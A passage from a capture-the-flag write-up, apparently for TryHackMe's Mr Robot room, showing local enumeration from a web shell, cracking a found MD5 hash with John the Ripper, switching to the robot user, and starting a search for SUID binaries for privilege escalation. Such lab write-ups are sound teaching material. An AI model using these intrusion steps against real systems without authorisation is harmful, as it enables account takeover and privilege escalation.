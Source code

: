 **Proof/artifacts to include** (screenshots):
- Gobuster output showing discovered paths
- robots.txt and the file showing key1 (or a screenshot of curl output)
- WordPress admin/Appearance → Theme Editor screen before/after edit
- Netcat listener showing the incoming connection and a sample `id` output from the web shell

---

## Local Enumeration & Capturing Key 2

1. **Basic enumeration (from web shell)**
```bash
id
uname -a
pwd
ls -la
ls -la /home
cat /home/robot/* 2>/dev/null
```
Look for unusual files in `/home/robot/` — there was a file containing an MD5 hash (a saved password).

2. **Crack the hash**
- Quick approach: use an online rainbow table (CrackStation) for fast results.
- Local approach: save the hash to `hash.txt` and crack with John:
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt --format=raw-md5
```
Cracked password allowed switching user to `robot`:
```bash
su robot
# enter cracked password
```

3. **Read user flag**
```bash
cat /home/robot/user.txt
# copy key2 into TryHackMe (do not publish it here)
```

**Proof/artifacts to include**:
- The hash file (or screenshot of it)
- CrackStation / John output (screenshot)
- `su robot` and `id` output as robot
- `cat /home/robot/user.txt` output (screenshot)

---

## Privilege Escalation → Root (SUID `nmap` abuse)

1. **Search for SUID/SGID files**  
Note: legacy `-perm +6000` may not work — use the portable syntax:
```bash
# recommended: find files with any setuid/setgid bits
sudo find / -type f -perm /6000 2>/dev/null | grep '/bin/'
# or narrow to common binary dirs
sudo find /bin /usr/bin /sbin /usr/sbin -type f -perm /6000 2>/dev/null
```
